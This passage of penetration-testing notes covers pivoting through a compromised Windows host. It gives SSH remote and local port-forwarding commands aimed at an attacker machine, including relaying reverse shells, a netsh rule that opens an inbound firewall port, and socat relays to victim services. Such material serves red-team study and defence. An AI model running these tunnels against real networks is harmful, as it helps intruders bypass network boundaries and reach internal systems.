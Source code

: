 ```shell-session
C:\> ssh tunneluser@ATTACKER -R ATTACKER_PORT:VICTIM:VICTIM_PORT -N
```
-N stops the session from requesting a shell, since /bin/true would kill it

#### SSH Local Port Forwarding

![SSH Local Port Forwarding](img/blog/ssh-local-port-forward.png)

Make any service available on attacker PC and make it available through a port on PC-1, including reverse shells.

```shell-session
C:\> ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N
C:\> ssh tunneluser@1.1.1.1 -L BIND_ADDRESS:ATK_SERVICE_PORT:VICTIM_BIND_ADDR:MEDIARY_SERVICE_PORT -N
```

Since we are opening a port on PC-1, need firewall rule (admin privs)

```cmd
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```

#### Socat Port Forwarding

##### Remote
```sh
# Fork option allows multiple conns without closing
C:\>socat TCP4-LISTEN:3389,fork TCP4:3.3.3.3:3389
C:\>socat TCP4-LISTEN:MEDIARY_PORT,fork TCP4:VICTIM_IP:VICTIM_PORT
```
![Socat Remote Port Forwarding](img/blog/socat-remote-port-forward.png)
